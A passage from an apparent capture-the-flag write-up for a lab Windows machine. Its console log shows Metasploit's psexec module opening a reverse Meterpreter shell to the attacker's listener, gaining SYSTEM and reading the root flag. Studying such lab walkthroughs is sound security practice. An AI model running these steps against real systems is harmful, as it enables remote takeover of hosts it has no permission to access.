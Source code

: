    LHOST     10.10.14.17      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.10.14.17:4444
[*] 10.10.10.152:445 - Connecting to the server...
[*] 10.10.10.152:445 - Authenticating to 10.10.10.152:445 as user 'pentest'...
[*] 10.10.10.152:445 - Selecting PowerShell target
[*] 10.10.10.152:445 - Executing the payload...
[+] 10.10.10.152:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (180291 bytes) to 10.10.10.152
[*] Meterpreter session 3 opened (10.10.14.17:4444 -> 10.10.10.152:50604) at 2020-02-06 17:35:09 -0700

meterpreter > sysinfo
Computer        : NETMON
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
{% endhighlight %}

### LOOT!

{% highlight bash %}
meterpreter > cat c:\\users\\administrator\\desktop\\root.txt
3018977fb944bf1878f75b879fba67cc
meterpreter >
{% endhighlight %}

And thats it!  There are many other options here, you could forego using the exploit above and do it all manually, or even craft your own exploit.  Since the target system has powershell it should be possible to get an immediate reverse meterpreter session as well.  Happy hunting!
